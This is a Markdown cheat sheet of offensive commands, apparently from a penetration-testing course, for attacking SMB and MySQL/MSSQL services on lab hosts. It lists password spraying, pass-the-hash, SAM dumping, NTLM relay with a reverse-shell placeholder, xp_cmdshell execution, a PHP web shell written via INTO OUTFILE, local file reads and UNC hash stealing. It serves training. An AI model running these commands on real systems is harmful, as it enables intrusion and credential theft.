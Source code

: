 | `./enum4linux-ng.py 10.10.11.45 -A -C` | Automated enumeratition of the SMB service using `enum4linux-ng`. |
| `crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!'` | Password spraying against different users from a list. |
| `impacket-psexec administrator:'Password123!'@10.10.110.17` | Connect to the SMB service using the `impacket-psexec`. |
| `crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec` | Execute a command over the SMB service using `crackmapexec`. |
| `crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users` | Enumerating Logged-on users. |
| `crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam` | Extract hashes from the SAM database. |
| `crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE` | Use the Pass-The-Hash technique to authenticate on the target host. |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146` | Dump the SAM database using `impacket-ntlmrelayx`. |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <base64 reverse shell>` | Execute a PowerShell based reverse shell using `impacket-ntlmrelayx`. |

#### Attacking SQL Databases

|**Command**|**Description**|
|-|-|
| `mysql -u julio -pPassword123 -h 10.129.20.13` | Connecting to the MySQL server. |
| `sqlcmd -S SRVMSSQL\SQLEXPRESS -U julio -P 'MyPassword!' -y 30 -Y 30` | Connecting to the MSSQL server.  |
| `sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h` | Connecting to the MSSQL server from Linux.  |
| `sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h` | Connecting to the MSSQL server from Linux while Windows Authentication mechanism is used by the MSSQL server. |
| `mysql> SHOW DATABASES;` | Show all available databases in MySQL. |
| `mysql> USE htbusers;` | Select a specific database in MySQL. |
| `mysql> SHOW TABLES;` | Show all available tables in the selected database in MySQL. |
| `mysql> SELECT * FROM users;` | Select all available entries from the "users" table in MySQL. |
| `sqlcmd> SELECT name FROM master.dbo.sysdatabases` | Show all available databases in MSSQL. |
| `sqlcmd> USE htbusers` | Select a specific database in MSSQL. |
| `sqlcmd> SELECT * FROM htbusers.INFORMATION_SCHEMA.TABLES` | Show all available tables in the selected database in MSSQL. |
| `sqlcmd> SELECT * FROM users` | Select all available entries from the "users" table in MSSQL. |
| `sqlcmd> EXECUTE sp_configure 'show advanced options', 1` | To allow advanced options to be changed. |
| `sqlcmd> EXECUTE sp_configure 'xp_cmdshell', 1` | To enable the xp_cmdshell. |
| `sqlcmd> RECONFIGURE` | To be used after each sp_configure command to apply the changes. |
| `sqlcmd> xp_cmdshell 'whoami'` | Execute a system command from MSSQL server. |
| `mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php'` | Create a file using MySQL. |
| `mysql> show variables like "secure_file_priv";` | Check if the the secure file privileges are empty to read locally stored files on the system. |
| `sqlcmd> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents` | Read local files in MSSQL. |
| `mysql> select LOAD_FILE("/etc/passwd");` | Read local files in MySQL. |
| `sqlcmd> EXEC master..xp_dirtree '\\10.10.110.17\share\'` | Hash stealing using the `xp_dirtree` command in MSSQL. |
| `sqlcmd> EXEC master..xp_subdirs '\\10.10.110.17\share\'` | Hash stealing using the `xp_subdirs` command in MSSQL. |
| `sqlcmd> SELECT srvname, isremote FROM sysservers` | Identify linked servers in MSSQL.  |
| `sqlcmd> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]` | Identify the user and its privileges used for the remote connection in MSSQL.  |
